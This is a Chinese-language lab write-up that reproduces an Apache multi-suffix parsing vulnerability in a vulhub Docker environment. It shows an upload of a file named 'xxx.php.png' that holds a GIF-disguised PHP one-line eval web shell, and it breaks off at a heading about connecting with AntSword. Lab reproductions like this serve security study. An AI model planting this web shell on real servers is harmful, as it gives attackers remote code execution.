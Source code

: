 ## Apache漏洞复现

### 1、Apache多后缀解析漏洞复现

#### 1.启动

```
cd /root/vulhub/httpd/apache_parsing_vulnerability
docker-compose up -d		#开启
docker-compose down			#关闭
```

![image-20240711191653106](https://image.201068.xyz/assets/image-20240711191653106.png)

##### 访问80端口

http://192.168.70.14/

![image-20240711191752433](https://image.201068.xyz/assets/image-20240711191752433.png)

#### 2.上传文件

##### 文件名

包含php后缀，被解析为php代码

```
xxx.php.png
```

![image-20240711192027573](https://image.201068.xyz/assets/image-20240711192027573.png)

##### 文件内容

```
GIF89a
<?php @eval($_POST['xxx']);?>
```

![image-20240711192129530](https://image.201068.xyz/assets/image-20240711192129530.png)

##### 上传成功

![image-20240711192329890](https://image.201068.xyz/assets/image-20240711192329890.png)

文件绝对路径：`/var/www/html/uploadfiles/xxx.php.png`

##### 访问文件目录

http://192.168.70.14/uploadfiles/xxx.php.png

![image-20240711192503644](https://image.201068.xyz/assets/image-20240711192503644.png)

#### 3.蚁剑连接
